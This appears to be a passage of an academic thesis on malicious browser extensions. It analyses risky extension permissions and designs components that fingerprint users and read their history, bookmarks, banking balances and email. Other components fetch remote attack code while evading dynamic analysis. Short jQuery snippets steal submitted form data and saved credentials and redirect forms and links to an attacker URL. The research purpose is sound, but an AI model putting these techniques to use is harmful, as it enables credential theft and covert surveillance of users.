	On installation, an extension with this permission shows the user the following warning:
	\begin{permissionwarning}
		Detect your physical location 
	\end{permissionwarning}
	
\paragraph{management}
	This module provides information about currently installed extensions. Additionally, it allows to disable and uninstall extensions. To prevent abuse, the user is prompted to confirm if an extension wants to uninstall another extension. 
	
	An attacker may use the feature to disable another extension to silently disable security relevant extension such as 
	\textit{Adblock}\footnote{AdBlock on the Chrome Web Store: \url{https://chrome.google.com/webstore/detail/adblock/gighmmpiobklfepjocnamgkkbiglidom}}, 
	\textit{Avira Browser Safety}\footnote{Avira Browser Safety on the Chrome Web Store: \url{https://chrome.google.com/webstore/detail/avira-browser-safety/flliilndjeohchalpbbcdekjklbdgfkk}}, or 
	\textit{Avast Online Security}\footnote{Avast Online Security on the Chrome Web Store: \url{https://chrome.google.com/webstore/detail/avast-online-security/gomekmidlodglbbmalcneegieacbdmki}}.
	
	On installation, an extension with this permission shows the user the following warning:
	\begin{permissionwarning}
		Manage your apps, extensions, and themes 
	\end{permissionwarning}
	
\paragraph{proxy}
	Allows an extension to add and remove proxy server to the browser's settings. If a proxy is set, all requests are transmitted over the proxy server.
	
	This feature may be used by an attacker to send all web requests over a malicious server. For example, a server that logs all requests and therefore steal any use information that is transmitted unsecured.
	
	On installation, a extension with this permission shows the user the following warning:
	\begin{permissionwarning}
		Read and modify all your data on all websites you visit 
	\end{permissionwarning}
	
\paragraph{system}
	The \texttt{system.cpu}, \texttt{system.memory}, and \texttt{system.storage} permissions provide technical information about the user's machine.
	
	These information may be used to create a profile of the current user's machine and identify him on later occasions.
	
\paragraph{tabs}
	An extension can access the browser's tab system with the tabs module. This enables the extension to create, update, or close tabs. Furthermore, it provides the functionality to programmatically inject content scripts into web pages and to interact with a content script which is active in a particular tab. To inject a content script, the extension needs a proper host permission that matches the tab's current web page. The tabs permission does not restrict the access to the tabs module but only the access to the URL and title of a tab. 
	
	A malicious extension may prevent the user from uninstalling it by closing the browser's extensions tab as soon as the user opens it. The programmatically injection takes a content script either as a file in the extension's bundle or as a string of code. Therefore, a malicious extension may inject remotely loaded code into a web page as a content script that executes further attacks.
	
	On installation, an extension with this permission shows the user the following warning:
	\begin{permissionwarning}
		Access your browsing activity 
	\end{permissionwarning}		
	
\paragraph{webRequest}

	This module enables an extension to modify outgoing web requests and their responses. For that purpose, it provides several events which are fired at different stages of a web request's life cycle. To get access to the web requests, the extension needs the \texttt{webRequests} permission and proper host permissions that match the request's URL. Additionally, the \texttt{webRequestBlocking} permission is needed in order that the extension can block the web request's processing and manipulate it. Blocking can be used to cancel or redirect the request and to modify the request's and the response's headers. 
	
	A malicious extension can use this module to remove security relevant headers such as a CSP , intercept outgoing requests, or redirect requests from benign to malicious web pages.
	
	This permission itself does not result in a warning when an extension that requires it is installed. But, to get access to the data of a web request the extension needs proper host permissions and these result in a warning. The often used host permissions \texttt{http://*/*}, \texttt{https://*/*}, and \texttt{<all\_urls>} result in the following warning:
	\begin{permissionwarning}
		Read and modify your data on all websites you visit 
	\end{permissionwarning}
	
	
		
	
	% permissions and constructs that increase the user's security
	% activeTab permission, extension has only access to current web page if user invokes it, invoking means he has to click a element that belongs to the extension such as a button in the toolbar, activeTab is intended to reduce the amount of needed permissions for extensions that only interact with the current web page and only on the users demand, otherwise these extensions need access to every web page to act when the user invokes them, 
	% optional permissions, extension can declare permissions as optional, this states that the permissions are not necesarry for the extension's base functionalities but provide additional features on the user's demand, if the extension requests the optional permission the user is prompted to confirm, if an extension needs access to only a few web pages but the user decides which these are, the extension can use \texttt{https://*/} and \texttt{http://*/} as optional permissions and request for access to web page from a specific domain,	


	
	% !TeX spellcheck = en_US

\chapter{Design}
\label{chp:design}

	We have analyzed potential threats in the browser API and showed our results in the previous chapter. In this chapter, we present our design and implementation to proof that the results of our theoretical analysis are applicable in practical scenarios. 
	
	We designed our implementation as a set of components with different functionalities and permissions. This allows us to integrate some of our components into an existing, benign extension if the extension has declared the privileges needed to execute the component. Because we do not change the extension's declared content and permissions, there will be no new warnings if the extension is updated. Especially Chrome disables an extension if the warnings shown on installation change with an update and the user has to explicit accept the changes and subsequently re-enable the extension. 
	
	\autoref{fig:designOverview} shows a graphical overview of our design. The \textit{identification} and \textit{communication components} represent the core of our design and have to be included in the benign extension. Their duty is to collect as many as possible pieces of information about the extension's current user and send them to a remote server. If the server has successfully identified the user, we load the source code of our \textit{attack components} from the remote server and execute them. The implementation of the server and the identification is not in the scope of our work. 
	
	\begin{figure}[h]
		\centering
		\def\svgscale{0.8}
		\input{./graphics/design_overview.pdf_tex}
		\caption{Overview of our design.}
		\label{fig:designOverview}
	\end{figure}
	
	This design brings several advantages. Because the bulk of our malicious implementations namely the attack components are not present at installation, a static analysis tool which uses content matching to find known malicious code pattern is less likely to detect our malicious intentions. Furthermore, the identification of the current user allows us not only to attack a worthwhile target but also to probably bypass a dynamic analysis. If we are able to detect that our implementation is currently the target of a dynamic analysis, we can fetch a benign script instead of our attack script. 

	For our implementations, we use the popular web library \textit{jQuery}\footnote{jQuery Homepage: \url{http://jquery.com/}} to simplify the interaction with a web page's DOM. 

\newpage	
\section{Identification}
\label{sec:identification} 

	Identifying the current user of our extension allows us to target our attack only at specific users. In beforehand, we can evaluate whether or not an attack is worthwhile if we collect as much as possible pieces of information about the user such his financial status or his position in a company we want to target. Furthermore, we are able to detect if our extension is target of an dynamic analysis such as \textit{Hulk} or \textit{WebEval} and evade detection \cite{184485,190984}.
	
	To find approaches which we can use for our implementation, we first analyzed existing techniques for user tracking and fingerprinting. We present our results and our own implementations to support these techniques in the following two sections. Furthermore, we present selected parts of our implementations to collect the user's personal information in the third section.
	
	We transfer collected information to our remote server which handles the identification. Because the communication between the extension and a remote server is not part of this section, we refer to our implementations that we show in \autoref{sec:communication} as \textit{send method}.
	
\subsection{User Tracking}
\label{sec:userTracking}

	User tracking refers to the linking of multiple web pages that were visited by the same user. Applying this technique to web page's that belong to the same domain allows to follow the user's path through the domain's pages and determine his entry and exit points. This is commonly used for web analytics to help the website's author to improve the usability of his layout. User tracking between different domains produces an overview about the user's movement through the Internet. It is often used by advertising companies who extract the user's personal needs and preferences from the websites he visits to provide personalized advertisements.
		
	The general method for user tracking includes a unique identifier which is intentionally stored on the user's machine the first time he visits a tracking web page. If the identifier is retrieved on later occasions, it notifies the tracking party that the same user has accessed another web page. There exists several possibilities to store data inside the browser. We have listed some approach which we found in several research papers:
		
	\begin{itemize}
		\item \textbf{Tracking Cookies} A common used web technology to track users are HTTP cookies. If a user loads a web page any cookie that was stored in beforehand from the same origin is send along the request. This simplifies the tracking, because the browser cares about the storage of the cookie and sends it automatically back to the server.
		
		\item \textbf{Local Shared Objects} Browser plugins use a technique similar to cookies to synchronize data between different browser sessions. The data is locally stored on the user's system. This allows to track the user behind different browsers. To store and retrieve an identifier inside a browser plugin, additional JavaScript is necessary.
		
		\item \textbf{Evercookie} This is a JavaScript framework implemented to produce persistent identifiers in a browser that are difficult to remove \cite{evercookie}. For that purpose, it uses multiple storage technologies such as HTTP and Flash cookies, HTML5 storages, web history and cache, and unusual techniques such as storing the identifier in RGB values of cached graphics. To hamper the removing from a browser, it recreates deleted identifiers as soon as the user visit a web site that uses the framework. The user has to delete every stored identifier to remove the evercookie completely. 
	\end{itemize}
	
\subsubsection{Web Beacon}
\label{sec:webBeacon}
	
	If a user loads a web page that includes a resource from a tracking third-party, any cookie that originates from the third-party's domain is send along the request that fetches the resource. This allows the third-party to track the user on every web page that includes their content. These kind of third-party content whose only purpose is user tracking are called \texttt{Web Beacon}s. A small image, commonly one pixel in size and transparent, is often used for that purpose. Because of its size it requires less traffic and its transparency hides it from the user. It is also used in HTML emails and acts as a read confirmation by notifying the sender that the email's content was loaded. Other nowadays more commonly used web beacons originate from social media such as Facebook's "like" button. 
	
	To allow user tracking between different websites, the developers have to explicit include the Web Beacon into their web pages. For our design, we take use of the fact that we are able to access any web the user visits and can add new elements to its DOM. We implemented a component that uses only a content script in every web page. The script embeds an image in the web page which it fetches from our remote server. If our server sends a tracking cookies along the corresponding response, we are able to remotely track the user because our server gets notified every time the user loads a new web page.  

\subsubsection{Store Identifier In Extension}
\label{sec:storeIdentifier}

	If we have successfully identified the current user with other techniques, we store an unique identifier inside his instance of the extension. This simplifies his identification next time. An extension has its own local storage and Chrome even provides a cloud based storage which we use to store the identifier. Contrariwise to the web page's storage technologies such as cookies or the HTML5 local storage, the browsers Chrome, Opera, and Firefox do not provide a user interface to clear the extension storage. The user has to manually delete associated files on his hard drive. 

\subsection{Fingerprinting}
\label{sec:fingerprinting}

	Previously described methods for tracking a user identify him based on some data which was intentionally stored on the user's system. Those stored identifiers are vulnerable to deletion by the user. A study from 2010 showed that a browser reveals many browser- and computer-specific information to web pages \cite{Eckersley:2010:UYW:1881151.1881152}. Collection and merging these pieces of information creates a fingerprint of the user machine. Creating a second fingerprint at a later point in time and comparing it to stored fingerprints allows to track and identify the user without the need to store an identifier on his computer in beforehand. Because the same kind of information taken from different users will probably equal, it is necessary to collect as much information as possible to create a truly unique fingerprint. 
	
	The technique of fingerprinting is nowadays mostly used by advertising companies to get a more complete view of the user and his needs than from simple tracking and by anti-fraud systems that detect if the currently used credentials or device belong to the current user and are not stolen.

	There exists numerous scientific papers about fingerprinting from which we present a small subset of techniques with brief descriptions \cite{paulstone_historysniffing, MBYS11, Nikiforakis:2013:CME:2497621.2498133, Eckersley:2010:UYW:1881151.1881152, MS12, olejnik:hal-00747841}. 
	
	\begin{itemize}
		\item \textbf{Browser Fingerprinting} The browser provides a variety of technical information to a web page that can be used to generate a fingerprint of the currently used browser and machine. The following list shows examples of these properties and how to access them using JavaScript. 
		
		\begin{tabular}{|l|l|p{0.47\textwidth}|} \hline
			\textbf{Property} & \textbf{JavaScript API} & \textbf{Example Output} \\ \hline
			System & \texttt{navigator.platform} & "Win32" \\ \hline
			Browser Name & \texttt{navigator.userAgent} & "Mozilla/5.0 (Windows NT 10.0; WOW64; rv:44.0) Gecko/20100101 Firefox/44.0" \\ \hline
			Browser Engine & \texttt{navigator.appName} & "Netscape" \\ \hline
			Screen Resolution & \texttt{screen.width} & 1366 (pixels) \\
			& \texttt{screen.height} & 768 (pixels) \\
			& \texttt{screen.pixelDepth} & 24 (byte per pixel) \\ \hline
			Timezone & \texttt{Date.getTimezoneOffset()} & -60 (equals UTC+1) \\ \hline
			Browser Language & \texttt{navigator.language} & "de" \\ \hline
			System Languages & \texttt{navigator.languages} & ["de", "en-US", "en"] \\ \hline
		\end{tabular}
		
		\item \textbf{Fonts} The fonts installed on the user's machine can serve as part of a user identification. The browser plugin \textit{Flash} provides an API that returns a list of fonts installed on the current system (\texttt{Font.enumerateFonts(true)})\cite{flashPlayerGetFonts}. If the Flash plugin is not available in a browser, JavaScript can be used to test whether particular fonts are available to the current web page or not. This approach needs a predefined list and may not cover unpopular fonts. It is implemented by writing a string with each font on the web page. If a font is not installed, the browser uses a fall-back font to draw the text. Comparing the width and height of the drawn font to those of the fall-back font gives an evidence whether or not the font is installed.
		
		\item \textbf{Canvas} Mowery er al. have notices that the same text drawn with canvas results in a different binary representation on different computers and operating systems \cite{MS12}. They suppose the reasons for these different results are due to differences in graphical processing such as pixel smoothing, or anti-aliasing, differences in system fonts, API implementations or even the physical display. The basic flow of operations consists of drawing as many different letters as possible with the web page's canvas and executing the method \texttt{toDataURL} which returns a binary representation of the drawn image. 
		
		\item \textbf{History Sniffing} Reading out the user's web history can not only serve as fingerprinting method but also to simplify user tracking. An outdated but back then common approach to test if a user has visited a particular web page was to use the browser's feature to display links to already visited web pages in a different color. A JavaScript adds a list or predefined URLs to the web page's DOM as link elements and determines the displayed color. Nowadays, link elements that were queried by JavaScript calls behave like unvisited links which prevents this sniffing attack. A current approach detects the redrawing of link elements to determine if the underlying web page was visited before \cite{paulstone_historysniffing}. If a link is drawn the first time, it is drawn as an unvisited link and simultaneously a query to the browser's web history database is send. When the query returns the information that the web page behind the link was visited before, it redraws the link element. The time it takes to redraw the element can be captured with JavaScript giving the desired evidence.
		
		\item \textbf{JavaScript Benchmark Testing} The execution speed of a JavaScript engine depends on the implementation but also on the systems processor architecture and clock speed. Mowery et al. implemented a set of benchmark test suits to fingerprint different execution speeds \cite{MBYS11}. Using these information, they could distinguish between major browser versions, operating systems and micro architectures. 
	\end{itemize}	
 
\subsubsection{Additional Fingerprinting Data} 
\label{sec:additionalFingerprintingData}

	The before presented techniques for fingerprinting all work from within a web page. Therefore, we can also execute them using a content script in an arbitrary web page. We implemented a component that collects fingerprinting values that the browser provides to a web page. Additionally, we can support this method by collecting technical information that the browser provides to an extension but not to a web page. These pieces of information help us to generate a more accurate fingerprint of the user's browser and system. To access the desired information, we need further permissions. \autoref{tab:fingerprintExtension} shows these pieces of information and the permissions needed to access them. 
	
	\begin{table}[h]
		\begin{tabular}{|l|l|l|} \hline
			\textbf{Permission} & \textbf{Information} & \textbf{Example} \\ \hline
			system.cpu & Number of processor kernels & \\
			& Processor's name & Intel(R) Core(TM) i5-3210M CPU @ 2.50GHz \\
			& Processor's capabilities & "sse", "sse2", "sse3"  \\ \hline
			system.memory & Memory capacity & 6501200096 \\ \hline
			gcm & An unique ID for the extension instance & \\ \hline
			management & List of installed extensions & Extension ID and version \\ \hline
		\end{tabular}
		\caption{Additional fingerprint information available to an extension.}
		\label{tab:fingerprintExtension}
	\end{table} 
	
\subsubsection{History Sniffing}
\label{sec:historySniffing}

	The general method of history sniffing explicitly tests if a user has visited a particular web page. This strategy has the disadvantage that not all visited web pages are covered because a predefined list is necessary and often only contains popular web pages. To improve history sniffing, we use an extension to create a more complete list of the web pages that a user has visited and even capture additional information such as the time when and the order in which different web pages were visited. For that purpose, we can either use the \textit{history} module or a content script in every web page. Each approach has its advantages and disadvantages. 
	
	With a content script, we can either execute the above described technique of history sniffing which uses a predefined list of web pages to explicit check, or store information such as the URL and the current time every time the content script is injected into a newly loaded web page. In \autoref{sec:webBeacon}, we have already presented a component that exactly executes this task. Our implementation of a Web Beacon notifies us every time the user has opened a new web page by fetching a resource from our remote server. To get the URL of the visited web page, we can simply transfer it as parameter in the web request that fetches the resource. The disadvantage of using a content script for history sniffing is, that we can not retrieve visited web pages from before the extension's installation or while the extension is disabled. Therefore, it is not an ideal fingerprinting technique because it has to be active for some time to be effective. But, it is a simple alternative if the \textit{history} module is not available because the extension does not have the corresponding permission.
	
	Using the history module allows us to retrieve all visited web pages at once. It provides two for us useful methods \texttt{search} and \texttt{getVisits}. The first method allows us to retrieve the URLs of all web pages the user has visited and the second one gives us detailed information about every time the user has visited a particular URL such as the concrete time, the referring web page, and how the user has entered the web page. In comparison to using a content script, the history module gives us more pieces of information and executes at once. But the browser's history is vulnerable to deletion or disabling by the user and is disabled if the user uses an incognito window.
	
	We implemented a component that executes a history sniffing attack using the history module. It queries for all visited web pages that the browser has stored and retrieves information about every time the user has visited each. The method that returns all web pages takes as arguments a start and end date that limit the returned list to visited web pages in the given time interval and the maximum number of returned entries. We set the start date to zero because it defaults to 24 hours in the past and the number of returned values to the maximum possible value. This returns us the complete list of stored entries.
	
\subsubsection{Bookmark Sniffing}
\label{sec:bookmarkSniffing}

	Similar to history sniffing, we retrieve the user's bookmarks as additional information for a fingerprint but also to get information about his preferred web pages. This allows us to explicit target web pages with our attacks that the user is high likely to visit. Our implemented component needs the \textit{bookmarks} permission to access the corresponding module. The browser stores the bookmarks in a tree structure. Our component uses a recursive function to traverse the tree and extract the bookmarks title and URL. In every recursion step we check if the current node contains a title and an URL. If this is not the case, the current node is not a bookmark but a folder.

\subsection{Personal User Information}
\label{sec:personalUserInformation}
	
	Besides the before described techniques of user tracking and fingerprinting, an extension has more efficient ways to identify a user. The extension has full access to any web page that the user visits and is able to read out any information that is stored inside these pages. This allows us to even identify the person behind the web user by collection personal information such as his full name, address, or phone number. 
	
	While developing the components that extract user information we faced several challenges. First at all, an extension whose purpose is to obtain particular data from a web page retrieves the targeted values directly from the web page's DOM and thus heavily depends on the DOM's structure. Due to strong differences between the structures of different web applications, we did not implement a general approach that collects the targeted information from multiple applications. 
	
	Furthermore, many modern web pages are of a dynamic nature. They load additional content while the user navigates the page. To be able to collect information that are fetched dynamically, we periodically query the web page and extract desired values. Of course, this results in a flood of information which has to be evaluated by the receiving server. Another challenge that we faced were JavaScript driven text editors in separate iframes. To extract their content, we programmatically injected a small content script in all frames of the current web page. The script evaluates if it is active in the targeted iframe, collects the desired content, and returns it. 
	
	We have extracted three categories of web applications as worthwhile targets to collect user data:
	\begin{itemize}
		\item \textbf{Social Media} Many people use real names and other personal information for their social media account. If the user visits his account, we can read out his personal data. Furthermore, we can extract information such as the user's social or business environment while the user visits the social web pages of other people he interacts with. 
		
		We implemented a component that collects the user's personal information while he navigates through his Facebook account. Our component retrieves the user's name, the URL of his main page, the names of his friends, locations that he has shared with Facebook, and other personal information from his main page such as his date of birth, home town, or salutation.
		
		\item \textbf{Online Banking} We can identify the current user based on his account numbers if he uses his online banking account. Moreover, we can extract his financial status which gives us information whether or not an attack on his finances is worthwhile.
		
		We implemented a component that targets a specific online banking platform. It iterates the user's banking accounts and selects the account's name, identification number, and current balance.
		
		\item \textbf{Email Account} If the user sends and receives emails on his online email account, we can read those and collect probably valuable information that he shares with his acquaintance or other people.
		
		We implemented two components that target a specific online email client. The first one reads the user's outgoing emails. For that purpose, it registers a listener to the "email send" button and then collects all recipients and the emails body when the user sends the mail. The second component retrieves the emails in the user's inbox. It awaits that the user opens a received email and extracts the sender and body.
	\end{itemize}
	
\clearpage
\section{Communication}
\label{sec:communication}

	In the previous section, we have shown our implementations to collect information about the current user to identify him. We need to transfer these data to a remote server which is in charge of the identification. Furthermore, if the identification was successful, we want to attack the user by loading the source code for some malicious behavior from the server. In this section, we present different approaches to transfer information between the extension and a remote server and to fetch the source code for our explicit attacks.
	
\subsection{Remote Communication}
\label{sec:remoteCommunication}

	We often arrive at a point where we have to transfer information from the active extension to our remote server or vice versa. For example, if we want to transfer collected information for identification or stolen personal user data or we want to give the extension the command to execute an attack. We implemented several partly interchangeable components for that purpose and present them in this section.

\subsubsection{XMLHttpRequest}
\label{sec:xhrCommunication}

	Extensions are able to make a web request to a remote server with a XMLHttpRequest. If called from within a web page, the XMLHttpRequest will be blocked by the Same Origin Policy if the target does not match the page's origin. However, the same restriction does not apply to extensions. It is only restricted by the declared host permission in its manifest. For this component, the extension needs a host permission that matches any URL such as \texttt{http://*/*}, \texttt{https://*/*}, or \texttt{<all\_urls>}. 

\subsubsection{Iframe}
\label{sec:iframeCommunication}

	Another strategy that we use to transfer information to a remote host was described by Liu et al. \cite{Liu12chromeextensions:}. They analyzed possible threats in Chrome's extension model by malicious behavior and conducted that an extension can executed HTTP requests to any arbitrary host without cross-site access privileges such as host permissions. For that purpose, they use the mechanics of an \textit{iframe} element. Its task is to display a web page within another web page. The displayed web page is defined by the URL stored inside the iframe's \texttt{src} attribute. If the URL changes, the iframe tries to fetch the web page by sending a request to the defined URL. Adding parameters to the URL allows to send data to the targeted server. 

	The Same Origin Policy creates a boundary between the iframe and it's parent web page. It prevents scripts to access content that has another origin than the script itself. Therefore, if the web page inside the iframe was loaded from another origin than the parent web page, the iframe's JavaScript can not access the parent web page and vice versa. The same restriction applies to contents script, too. But an extension can execute another content script in the iframe's web page to access its content. For that purpose, it has to enable the \texttt{all\_frames} option for a content script either statically in the manifest or for a programmatically injection. We use this fact for our component and use it as a two way communication channel. Executing a second content script inside the iframe, allows us to read information that our server has embedded inside the fetched web page.

\subsubsection{Automatic Extension Update}
\label{sec:automaticExtensionUpdate}

	In previous researches, Liu et al. implemented extensions for major browsers that can be remote controlled to execute web based attacks such as \textit{Denial of Service} or spamming. \cite{liu2011botnet, Liu12chromeextensions:}. To control the extensions and send needed information such as the target for a DoS attack or a spamming text, the attacker has to communicate with his extensions. Liu et al. use the automatic update of extensions for that purpose. The browser checks for any extension update on startup and periodically on runtime. The attacker can distribute an attack by pushing a new update and the extension can read commands from a file in it's bundle. This communication channel is on one hand more stealthy than previous approaches because no web request is executed between the extension and the attacker but on the other hand a new extension version is distributed which may be the target of an analysis and it contains the message. 

\subsection{Remote Script Fetching}
	
	Because our implementation relies on fetching the source code for a particular attack from our remote server we present our implemented components in this section. Fetching a script remotely from a server is also some kind of communication. Therefore, some components that we present in this section use similar to same approaches like before presented components for communication in \autoref{sec:remoteCommunication}. 
	
\subsubsection{Script Element In Background}
\label{sec:scriptElementInBackground}
	
	HTML pages which are bundled in the extension's installation can include script elements with a source attribute pointing to a remote server. If the extension is executed and the page is loaded, the browser automatically loads and executes the remote script. This mechanism is often used to include public scripts, for example from Google Analytics. 
	
	An extension needs to explicitly state that it wants to fetch remote scripts in its background page. The default Content Security Policy disables the loading of scripts per script element which have another origin than the extension's installation. We can relax the default CSP and enable the loading of remote scripts over HTTPS by adding a URL pattern for the desired origin. 
	
\subsubsection{Script Element In Content Script}
\label{sec:scriptElementInContentScript}

	If we want to execute a remote loaded script only in the scope of a web page, we can take use of the DOM API. It allows us to add a new script element to the current web page. If we set the source attribute of the script element to the URL of our remote server, the browser will fetch and execute the script for us. Our component that executes this strategy does not need additional permissions besides a single content script in the targeted web page. 
	
\subsubsection{XMLHttpRequest}
\label{sec:xhrFetching}

	In \autoref{sec:xhrCommunication} we have shown that an extension can execute a web request to a remote server with the XMLHttpRequest API. To execute the request, our component needs host permissions to any remote server. This approach allows us not only to transfer information to our remote server, but also to receive any data especially the source code for our attack components. We receive the source code in text form and have to forward it to the browser's JavaScript interpreter to execute it.
	
	Before we can execute a remote loaded script, we have to consider what the scripts objectives are. Whether it should act in the extension's background or as a content script. If the first case applies, we can use the JavaScript method \texttt{eval} to execute the remote loaded code as a JavaScript application. The use of eval is frowned upon because it is a main source of XSS attacks if not used correctly \cite{mozillaDangerousEval}. On that account, the default Content Security Policy disables the use of eval in the extension's background process. We can relax the default policy and add the key \texttt{unsafe\_eval} to lift the restriction.
	
	If we want to execute the remote loaded script as a content script, we can programmatically inject it. The method \texttt{chrome.tabs.executeScript} executes a given string as a content script in a currently open tab. The use of this function is not restricted by a permission. But to access the web page in the tab, the extension needs a proper host permission that matches the web page's URL. Because we have fetched the script with an XHR, we have already declared host permissions that match any URL to execute the request.
	
\subsubsection{Mutual Extension Communication}
\label{sec:mutalExtensionCommunication}

	An extension is able to communicate with another extension. This opens the possibility of a permission escalation as previously described by Bauer et al. \cite{extensions:cns14}. The extension which executes the attack does not need the permissions to fetch the malicious script. Another extension can execute this task and then send the remote script to the executing extension. This allows to give both extensions less permissions and thus making them less suspicious especially for automatic analysis tools. To detect the combined malicious behavior, an analysis tool has to execute both extensions simultaneously. This is a very unconventional approach, because an analysis often targets only a single extension at a time. 
	
	A communication channel that does not need any special interface can be established over any web page's DOM. All extensions with an active content script in the same web page have access to the same DOM. The extensions which want to communicate with each other can agree upon a specific DOM element and set it's text to exchange messages. Another way to exchange messages is to use the DOM method \texttt{window.postMessage}. This method dispatches a \texttt{message} event on the web pages \texttt{window} object. Any script with access to the web page's \texttt{window} object can register to be notified if the event was dispatched and then read the message. 
	
	We implemented two components that work in union and execute the described strategy. The first one dispatches a message on the window object of the current web page and the second registers for the message event and reads the attached message. We admit that these components will have almost no scope of application, because a user needs to have two malicious extension installed for this strategy to work. It servers more as an example to show what strategies are possible.


\clearpage
\section{Execution}
\label{sec:execution}
	
	We have already shown how we collect information to identify the current user, transfer it to our remote server which is in charge to evaluate the data, and how we fetch the source code of an attack in the case that the identification was successful. In this section we finally, present our concrete attack implementations.
	
	Depending on how we have fetched the attack's source code, we need different permissions to execute the attack. In the case that the attack is executed in the scope of a web page, we need either an already active content script that executes the attack or host permissions to inject the attack as independent content script into the web page.

	In \autoref{sec:identification}, we have already shown that we are able to obtain personal user information by extraction them from the web pages that the user visits. Before, we collected these information to generate a fingerprint of the current user and identify him based on this fingerprint. Of course, if we have already obtained sensitive information, we are able to misuse them and harm the user. Therefore, we also use the components presented in \autoref{sec:identification} as attack components to steal sensitive user data.

\subsection{Steal Form Data}
\label{sec:stealFormData}

	The user often transmits sensitive information to a web server using a web form. We can intercept and steal these transmitted data using the simple code snippet \lstinline|$('form').submit(function() { send($(this).serialize()); })|. The \textit{jQuery} library allows us to simply register an event on each form elements of the current web page that is dispatched if the form is submitted by the user. In this case, we again use jQuery to serialize the form's content and forward it to our send method. This attack is a very general approach that targets any form element in all web pages.
	
	We find a more concrete application for the before described attack on authentication web pages. These usually contain a web form in which the user enters his credentials to authenticate against a web application. If we obtain his credentials, we can impersonate the user on this particular application. Our implementation for this attack is very similar to the before described attack. To explicitly target only authentication forms, we search for an input filed of type password on the page. These are a typical component of a web form in combination with a text field in which the user enters his username. If we have found one, we select the corresponding form element and again attach an event handler that is triggered if the user submits the form. The event handler will then read out the form's values.

	The browser provides a storage for entered credentials to the user. If the user has stored his credentials for a particular web page and opens this page on a later occasion, the browser will fill in the stored credentials. We implemented a further component that steals the credentials from an authentication form after the browser has filled in the desired values. Again, we use a similar implementation than the before described attack. We first search for an input element of type password to identify the authentication form. Then, we use the function \texttt{setTimeout} and wait for 500 milliseconds to give the password manager the time to fill in the credentials. Finally, we extract the desired values and send them to our remote server.
		
\subsection{Manipulate Web Requests}
\label{sec:manipulateWebRequests}

	An extension is able to manipulate any outgoing web request. We can redirect a GET request to load a malicious lookalike of the original web page, redirect a POST request to obtain probably sensitive values, or manipulate the values of a request's body to harm the user. Most requests initiates the user from within a web page. Therefore, we use a content script to manipulate URLs and form values inside a particular web page. Additionally, we use the \texttt{webRequest} module to intercept and manipulate outgoing web requests.
	
	We implemented a component that manipulates the value of a form field with this code snippet. For this attack, we need explicit knowledge about the targeted web page's structure. We need a CSS selector to find the targeted form and a CSS selector to find the form's targeted value. This attack may be used to change the transaction amount if the user uses his online banking account for a transaction or change the transaction's target. 

	We can change the target to which the values of a form are transmitted by manipulating the forms \texttt{action} attribute. For that purpose, we use the following code snippet: \lstinline|$('form').attr('action', TARGET_URL);|. First, we query for a form element and then we set its action attribute to our targeted URL. Similar, we can change the target web page of a link element. For that purpose, we change the value of the link's \texttt{href} attribute. Again, we us a small code snippet: \lstinline|$('a[href~=' + TARGETED_URL + ']').attr('href', TARGET_URL);|. This time, we query for a link element whose current URL belongs to our targeted web page and exchange the URL with the one of our malicious server. We implemented an equal attack which uses the \texttt{webRequst} module instead of a content script. This allows us to redirect any web request. To execute this attack, the extension needs the \texttt{webRequest} and \texttt{webRequestBlocking} permissions and proper host permissions for the targeted web page such as \texttt{http://*/*} and \texttt{https://*/*}. 
	
	
\subsection{Execute Attack In Background}
\label{sec:executeAttackInBackground}

	We implemented several components that open predefined web pages to execute particular attacks such as to steal probably stored credentials from the browser's password manager. Different strategies to hide the loading of a new web page were previously discussed by Bauer et al. \cite{extensions:cns14}. We implemented three described approaches:
	
	\begin{enumerate}
		\item Load the targeted web page in an invisible iframe inside any web page.
		\item Load the targeted web page in an inactive tab and switch back to the original web page after the attack has finished.
		\item Open a new tab in an inactive browser window and load the targeted web page in this tab. Close the tab after the attack has finished.
	\end{enumerate} 
	
	The first approach is the least reliable one. There exists several methods to enforce that a web page is not displayed in an iframe. The standardized approach is to use the \texttt{X-Frame-Option} HTTP header which is compatible with all current browsers \cite{xFrameOptionsSpezification, xFrameOptionsCompability}. This transfers the responsibility to enforce that the web page is not loaded into an iframe to the browser. Other approaches use JavaScript to deny the web page's functionality if it is loaded in an iframe or to move the web page's content from the iframe to the main frame.
		
	To open a particular web page in an iframe, we use a content script with the \texttt{any\_frame} option which enables the execution of the content script in all sub-frames of the current web page such as iframes.Our implementation consists of two steps. First, we check if the content script is currently active in the window's main frame with the conditional statement \lstinline|window.self === window.top|. In this case, we send a message to the extension's background to retrieve the URL or a targeted web page. This is necessary because the content script itself can not store data - in our case a list of targeted URLs - between different instances of itself. Then, we create a new iframe element, turn it invisible for the user, attach it to the current web page, and load the targeted web page. Because we set the \texttt{any\_frame} option, the browser will execute our content script in the newly loaded web page. The check if we the script is currently active in the main frame will fail and we can execute the second part of our script which executes another component to attack the loaded web page.
	
	The second and third approach work very similar. Both use the browser's tab system to open a particular web page. Therefore, the components needs the \texttt{http://*/*} and \texttt{https://*/*} host permissions and for the second approach additionally the \texttt{tabs} permission.
	
	To open a particular web page in an inactive tab, we use the browser's tab system provided through the \texttt{tabs} module. First, we search for an inactive tab using \lstinline|chrome.tabs.query({active: false});|. We store the URL of the tab's current web page, to later switch it back. To access the web page's URL, we need the \texttt{tabs} permission. Then, we load the targeted web page into the tab and inject a content script that executes a particular attack. The content script will send a message to the extension's background to indicate that it has finished executing the attack. If we receive this message, we will load the tab's original web page into the tab to disguise our attack.
	
	To open a particular web page in a background window, we use a similar implementation to the before described approach to load the web page into an inactive tab. For this approach, we do not search for an inactive tab instead we search for a tab that is not in the current browser window using \lstinline|chrome.tabs.query({currentWindow: false});|. We also do not need the \texttt{tabs} permission, because we do not access the URL of the tab. Instead, we extract the tab's window id and open a new tab inside the same window using \lstinline|chrome.tabs.create({url: TARGET_URL, windowId: windowId});|. Simultaneously, we load the targeted web page into the newly created tab. Now we can execute our attack in the tab and close it when the attack has finished.
	
	We tested our implementations in Chrome, Opera, and Firefox with our attack implementation to steal probably stored credentials from the browser's password manager which we have described in \autoref{sec:stealFormData}. To our surprise, the attack was only successful in Firefox. The reason that the attack does not work in Chrome and Opera is that JavaScript has no access to the value of a password input field before any user interaction with the web page occurred. What first seems like a bug is an intended security feature to prevent exactly this kind of attack \cite{chromiumBlogPasswordInput}.


\subsection{Denial Of Service}
\label{sec:DoS}
	
